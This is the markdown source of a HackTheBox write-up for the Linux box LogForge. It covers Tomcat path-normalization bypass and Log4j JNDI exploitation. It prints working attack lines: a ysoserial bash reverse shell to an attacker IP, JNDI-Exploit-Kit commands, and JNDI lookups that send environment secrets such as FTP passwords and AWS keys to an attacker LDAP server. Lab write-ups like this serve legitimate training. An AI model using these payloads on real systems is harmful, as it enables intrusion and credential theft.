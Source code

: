 ```yaml
---
title: LogForge
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2021-12-25 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Web Application, Log4j, Linux, Nginx, Path Normalization]
math: true
mermaid: true
image:
  src: /assets/images/2022-01-12-10-53-32.png
  width: 694
  height: 515
  alt: image alternative text
---
```


**LogForge is Linux box which introduces Log4j Vulnerability.**
# Enumeration
## NMAP
```
luka@kali:~/htb/logforge/nmap$ nmap -sC -sV -oA nmap 10.10.11.138
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-24 20:55 CET
Nmap scan report for 10.10.11.138
Host is up (0.033s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open     http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ultimate Hacking Championship
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## WebPage on Port 80
![](/assets/images/2022-01-11-19-22-43.png)

Going to page that doesn't exist shows, that there is difference regarding which server is running on port 80 (Apache or Apache Tomcat), which makes us asume that we're dealing with reverse proxy.
![](/assets/images/2022-01-11-19-24-26.png)

# Exploitation
So from very basic enumeration let's start to exploitation.
First on the menu is breaking the parser logic. 
## Breaking parser logic on Apache / Tomcat
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

We'll use a neat trick to trick Reverse Proxy to not block us after opening `/manager/`. 
![](/assets/images/2022-01-11-19-25-22.png)
We'll be able to bypass that and still end on Tomcat because tomcat doesn't treat that ::; as URL.
`http://10.10.11.138/idontexist/..;/manager/` will open the Login prompt (Login with `tomcat/tomcat`).
We should be able to login to Tomcat manager.
![](/assets/images/2022-01-11-19-25-42.png)
## Log4J Exploit / CVE-2021/44882
There are a lot of good explanations on Log4J, so i'll won't be diving into that. I've done the PoC before which used simple JNDI payload, which loaded malicious class after LDAP Callback and gave reverse shell. 

Exploiting Log4J on this box is a little more tricky.
First of all, we need to get an execution, so let's try injecting simple payload into Tomcat.
`${jndi:ldap://10.10.14.18:1389/Ajej.class}`
![](/assets/images/2022-01-11-19-25-57.png)
I ran `tcpdump` but nc listening on port 1389 would also do the job. 
There's callback so Application is vulnerable.
![](/assets/images/2022-01-11-19-26-11.png)
Like suggested in the ippsec's video https://www.youtube.com/watch?v=XG14EstTgQ4, approach mention in the post https://twitter.com/marcioalm/status/1470361495405875200 will be used. In addition to that post, we'll not be using the regular Ysoserial, but Ysoserial-modified: https://github.com/pimps/ysoserial-modified
JNDI-Exploit-kit: https://github.com/pimps/JNDI-Exploit-Kit.git

### Creating payload
```
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.18/4444 0>&1' > /home/luka/htb/logforge/rev
```

### Starting JNDI-Exploit-Kit
```
java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.18:1389 -P /home/luka/htb/logforge/rev
```
![](/assets/images/2022-01-11-19-26-30.png)
### Reverse Shell
Put `${jndi:ldap://10.10.14.18:1389/rev}` again in the manager's field which gives us RCE and start it. Reverse shell should pop:
![](/assets/images/2022-01-11-19-26-44.png)
If the payload wouldn't work, we could use also one of the following:
```
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/s5ie1k
ldap://10.10.14.18:1389/s5ie1k
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/kfaicp
ldap://10.10.14.18:1389/kfaicp
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.10.14.18:1099/koifwi
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/2blnim
ldap://10.10.14.18:1389/2blnim
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/e6xn7g
ldap://10.10.14.18:1389/e6xn7g
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.14.18:1099/urpkwl
```

# Privilege Escalation
## FTP Server (Java) running as root
```
root         769       1  0 Dec24 ?        00:00:00 /usr/sbin/cron -f
root         937     769  0 Dec24 ?        00:00:00  \_ /usr/sbin/CRON -f
root         943     937  0 Dec24 ?        00:00:00      \_ /bin/sh -c /root/run.sh
root         944     943  0 Dec24 ?        00:00:00          \_ /bin/bash /root/run.sh
root         945     944  0 Dec24 ?        00:00:59              \_ java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```
![](/assets/images/2022-01-11-19-27-09.png)
Unintended way to solve the box is to log into FTP on localhost with any user, and simple use dir and cat to read the flag etc.

Intended way (according to IppSec's video) is to exploit the vulnerable Log4J FTP Application. We can exploit Log4J simply by putting same string as we did above into the username, and we'd get a callback from an application. Because this app does not have any gadgets, we need to dig deeper into the application.
So download the ftp server application to Kali and open it with `jd-gui`.

You should see Log4J decompiled classes right away.
In `Worker.class` we can see user and the pass which will be passed from environment variable.
```java
  private String validUser = System.getenv("ftp_user");
  
  private String validPassword = System.getenv("ftp_password");
```

Both can be read using JNDI, so let's try that.
`${jndi:ldap://10.10.14.18:1389/${env:ftp_user}/${env:ftp_password}}`

Run `tcpdump -i tun0 -A port 1389`
Somewhere in the middle we should find, leaked username and password:
![](/assets/images/2022-01-11-19-28-27.png)
FTP Login should work. We can either grab a flag only or download `.ssh/id_rsa`

### Exflitration of other Data
Exfiltration of other data is also possible. This is short list from here: https://therceman.medium.com/log4j-vulnerability-cheatsheet-66b7aeabc607
```
${hostName}  
${sys:user.name}  
${sys:user.home}  
${sys:user.dir}  
${sys:java.home}  
${sys:java.vendor}  
${sys:java.version}  
${sys:java.vendor.url}  
${sys:java.vm.version}  
${sys:java.vm.vendor}  
${sys:java.vm.name}  
${sys:os.name}  
${sys:os.arch}  
${sys:os.version}  
${env:JAVA_VERSION}  
${env:AWS_SECRET_ACCESS_KEY}  
${env:AWS_SESSION_TOKEN}  
${env:AWS_SHARED_CREDENTIALS_FILE}  
${env:AWS_WEB_IDENTITY_TOKEN_FILE}  
${env:AWS_PROFILE}  
${env:AWS_CONFIG_FILE}  
${env:AWS_ACCESS_KEY_ID}
```

For example:
`${jndi:ldap://10.10.14.18:1389/${hostName}/......./${sys:user.name} /......./${sys:user.dir}/......./${sys:os.version}}`
![](/assets/images/2022-01-11-19-28-42.png)

